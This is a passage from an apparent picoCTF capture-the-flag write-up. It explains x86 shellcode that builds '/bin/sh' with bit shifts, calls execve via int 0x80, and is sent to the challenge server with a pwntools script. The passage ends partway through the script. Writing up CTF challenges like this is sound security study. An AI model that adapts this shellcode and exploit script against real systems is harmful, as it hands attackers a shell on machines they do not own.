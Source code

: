 
Pass the syscall number for execve `(11)` and run the instruction with `int 0x80`.

```
mov al, 0xb
int 0x80 
```

Here's the full shellcode.

```python
shellcode=asm(f'''
xor eax, eax
xor ecx, ecx 
xor edx, edx 
push eax
nop 
xor ebx, ebx
mov bl,0x68
.rept {num_shl}
shl ebx 
.endr 
mov bh, 0x73
mov bl, 0x2f 
push ebx 
nop
mov bh, 0x6e
mov bl, 0x69
.rept {num_shl}
shl ebx
.endr 
mov bh, 0x62 
mov bl, 0x2f 
push ebx 
nop 
mov ebx, esp 
mov al, 0xb
int 0x80 
''')
```


Sending it to remote will get you the flag. 


Here's the complete code. 


```python
from pwn import *

context.log_level = "debug"
r = remote("mercury.picoctf.net", 37853)

num_shl = 16
shellcode = asm(
    f"""
xor eax, eax
xor ecx, ecx 
xor edx, edx 
push eax
nop 
xor ebx, ebx
mov bl,0x68
.rept {num_shl}
shl ebx 
.endr 
mov bh, 0x73
mov bl, 0x2f 
```